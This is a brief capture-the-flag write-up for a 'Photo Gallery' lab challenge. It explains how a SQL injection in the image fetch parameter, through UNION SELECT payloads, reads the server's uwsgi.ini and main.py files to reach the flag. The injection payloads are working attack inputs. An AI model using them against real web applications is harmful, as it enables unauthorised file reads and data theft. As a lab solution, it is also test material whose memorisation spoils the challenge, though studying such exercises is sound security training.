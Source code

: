# Photo Gallery - FLAG0

## 0x00 Check Image Source

Based on [FLAG1][1], when fetching an image id, it will return an image from the **files** directory.

http://127.0.0.1/xxxxxxxxxx/fetch?id=1

| id | title            | parent | filename           |
| -- | ---------------- | ------ | ------------------ |
| 1  | Utterly adorable | 1      | files/adorable.jpg |
| 2  | Purrfect         | 1      | files/purrfect.jpg |
| 3  | Invisible        | 1      | FLAG1              |

## 0x01 Arbitrary File Read

Normally id is integer, so decimal may make an error here.

```sql
fetch?id=1.1
```

![](./imgs/notfound.jpg)

So when do UNION SELECT with the image name, it loads the image 1 again.

```sql
id=1.1 UNION SELECT 'files/adorable.jpg' --
```

![](./imgs/adorable.jpg)

## 0x02 [uwsgi-nginx-flask-docker][3]

The [hint][4] shows the application run on [uwsgi-nginx-flask-docker][3]. So the configuration file is **uwsgi.ini**

```sql
id=1.1 UNION SELECT 'uwsgi.ini' --
```

The file shows

```
[uwsgi] module = main callable = app 
```

And the main file

```sql
id=1.1 UNION SELECT 'main.py' --
```

Can check the [main.py][2]

![](./imgs/flag.jpg)


[1]: ../flag1
[2]: ./main.py
[3]: https://github.com/tiangolo/uwsgi-nginx-flask-docker
[4]: ../